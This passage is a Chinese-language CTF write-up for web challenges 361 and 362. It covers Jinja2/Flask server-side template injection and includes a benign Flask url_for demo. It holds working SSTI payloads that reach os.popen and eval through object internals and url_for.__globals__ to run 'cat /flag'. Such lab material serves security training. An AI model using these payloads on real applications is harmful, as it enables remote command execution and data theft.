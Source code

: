 ## web 361

- 找`os._wrap_close`这个类，用脚本跑
- 找到位置后用下面的Payload

```python
{{"".__class__.__bases__[0].__subclasses__()[位置].__init__.__globals__['popen']('cat /flag').read()}}
```

## web 362

### 方法1：url_for

- 利用视图函数名字一般不会改变的特性，利用视图函数的名字去动态精准的获取url

```python
from flask import Flask, url_for
 
app = Flask(__name__)
app.config.update(DEBUG=True)
 
 
@app.route('/')
def demo1():
    print(url_for("book"))  # 注意这个引用的是视图函数的名字 字符串格式,就是下面的book函数，
    print(type(url_for("book")))
 
    return url_for("book")
 
 
@app.route('/book_list/')
def book():
    return 'flask_book'
 
 
if __name__ == "__main__":
    app.run()
```

- 终端中打印的结果为：

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676014020303-cb098f20-e314-465d-8da7-5e310058f40d.png#averageHue=%23282726&clientId=u34e1e24c-4d73-4&from=paste&height=51&id=O21WG&originHeight=102&originWidth=383&originalType=binary&ratio=2&rotation=0&showTitle=false&size=6034&status=done&style=none&taskId=u02355a58-6c7a-4120-83b3-c6db6eb57c9&title=&width=191.5)

#### payload1

```python
?name={{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
```

#### payload2

- 也可以不用__builtins__，直接用os
